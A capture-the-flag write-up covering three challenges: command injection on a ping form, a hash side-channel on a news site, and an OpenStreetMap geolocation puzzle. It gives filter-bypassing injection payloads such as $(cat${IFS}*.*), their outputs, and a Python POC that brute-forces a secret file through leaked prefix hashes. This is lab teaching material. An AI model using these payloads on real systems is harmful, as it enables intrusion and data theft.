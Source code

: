 # Table Of Contents

1. [Web Baby] (#web-baby)
2. [Ye Olde News Website] (#ye-olde-news-website)
3. [Relic Race] (#relic-race)

## Web Baby

The website contains a function to ping an IP Address. Looking through the source code, we can deduce that multiple restrictions are set, namely:

1. Input cannot be longer than 15 characters
2. Many special characters are blacklisted

The characters below are the few that are not blacklisted:

* {}, (), $

​![image](assets/image-20231209205806-d5jxrso.png)​

Notice how the code takes our user input without sanitizing it. This makes the program vulnerable to **command injection**. After searching through cheatsheets such as **payloadallthethings**, I eventually found out  *$() * can be used for command injection.

​`$(whoami)`​

* bad address 'baby_web'

​`$(pwd)`​

* bad address '/'

​`$(ls)`​

* no result was shown, hinting that all files and directories are hidden in '/'

​`$(ls${IFS}*)`​

* ls: can't open 'root': Permission denied

Initially, I thought that **ls was disabled on the machine**. Thus, I searched for alternatives to ls and found this article:

* https://ubunlog.com/en/alternativas-al-comando-ls/

In the article I found this:

```
for **list hidden files** we will execute:
	echo *.*
```

After using that with the payload `$(ls${IFS}*.*)`​, we received the output:

* bad address 'flag.txt'

Replace ls with cat to get the flag! `$(cat${IFS}*.*)`​

* bad address 'STANDCON{1nj3ct1On\_@+\_uR\_c0MM@Nd}'

### References:

https://semgrep.dev/docs/cheat-sheets/go-command-injection/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/

https://security.stackexchange.com/questions/219605/command-injection-filtering-bypass

https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection

## Ye Olde News Website

These are the directories of interest found after examining the JavaScript on the web application:

```javascript
<script id="setup">
let HOST = "/"
let params = (new URL(document.location)).searchParams;
let article = params.get("article");
document.getElementById('title').innerHTML = article.split(".")[1];

fetch(HOST+'dir?category=article')
   .then(response => response.text())
   .then(text => document.getElementById("articleList").innerHTML=text)

setTimeout(() => {
fetch(HOST+"getArticle?maxlength=200&name="+article)
   .then(response => response.text())
   .then(text => document.getElementById("content").innerHTML=text.replace(/\\n/g,"<br>").slice(1, -1) + '...<br><br><b>Subscribe to read more!</b>')

document.getElementById('setup').remove();
},1000)
</script>
```

/dir?category=.

* use '.' to list out files since most filenames contain that character

  ​![image](assets/image-20231208233128-hcm8avm.png)​

/getArticle?maxlength=10000&name=article3.secret.txt

* get the text itself without it being cut off.
* maxlength grabs the first x number of characters specified in the url variable.	![image](assets/image-20231208233042-a49nwuv.png)​

* confidential articles are not to be read. Only the hash of such files are provided. Since the hash of the file constantly changes based on the maxlength variable, which is the first x number of characters in the file, we can use that to brute force the flag.

  ​![image](assets/image-20231208233216-vwfz7cs.png)​

  ​![image](assets/image-20231208233232-vicok9t.png)​

Grab the hash of the flag when max length = 10. This is because we already know the first 9 characters of the flag, `STANDCON{`​. Thus, we only need to brute force from the 10th character onwards.

Append all possible characters to the current flag, hash that appended text via md5 and compare hashes. A POC is provided below:

```python
#!/usr/bin/python3
import sys
import hashlib
# Use the latest hash and the current flag you possess to brute force the NEXT CHARACTER in the flag.
# Eg. md5 hash of first 10 chars of the flag as argument1, first 9 characters of flag as argument2.
currenthash = sys.argv[1]
currentflag = sys.argv[2]
wordlist='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_=+\\|~`[]{}'

for x in wordlist:
	newflag = currentflag + x
	hashedNewFlag = hashlib.md5(newflag.encode('UTF-8')).hexdigest()
	if(hashedNewFlag == currenthash):
		print("Latest Character Found!")
		print("Flag: " + newflag)
```

Flag: STANDCON{Y3_0LD3_S1MPL3_FL4G}

​![image](assets/image-20231208125817-77o5wtw.png)​

### References:

https://stackoverflow.com/questions/1009860/how-can-i-read-and-process-parse-command-line-arguments

## Relic Race

We were provided a screenshot of the thief's device. It contains an image of a QR Code, and satellite map image of an unknown location.

​![screenshot](assets/screenshot-20231209212451-adhfb6f.png)​

Decode the qr code using this website:

* https://products.aspose.app/barcode/recognize#/recognized
* M1BOSCO/MARK MR       1A11A1 SINLHRBN XXX  331Y26J 37    00

from the ticket, we deduce Mr. Mark is going from Singapore to Harbin. However, that is NOT the location in the image because China drives on the right side of the road, not the left as shown in the image.

As the hint leads to overpass turbo, a graphical mapping tool which utilises openstreetmaps, I utilised a script I found to locate all **gas stations near banks**.

```
<!--
This is an example Overpass query.
Try it out by pressing the Run button above!
You can find more examples with the Load tool.
-->
<query type="node">
  <has-kv k="amenity" v="bank"/>
  <bbox-query {{bbox}}/>
</query>
<query type="node">
  <around radius="300"/>
  <has-kv k="amenity" v="fuel"/>
</query>

<print/>
```

Search all located nodes found, 17 in my case, and you will eventually find the exact location as shown in the initial **screenshot.png** file provided to us.

​![image](assets/image-20231208174208-rhkikcw.png)​

​![image](assets/image-20231208174224-9q7ruwt.png)​

Grab the coordinates and place it into google maps to double check:

​![image](assets/image-20231208174249-37rjtg6.png)​

Try the postal code of both the bank and the fuel station. In the end, the postal code of the fuel station is the correct answer for the flag.

* 312 Seven Sisters Rd, Greater, Finsbury Park, London N4 2AW, United Kingdom
* STANDCON23{N4 2AW}

### References

https://help.openstreetmap.org/questions/33089/proximity-search-node-with-tag1-near-node-with-tag2

https://wiki.openstreetmap.org/wiki/Map_features#Aerialway
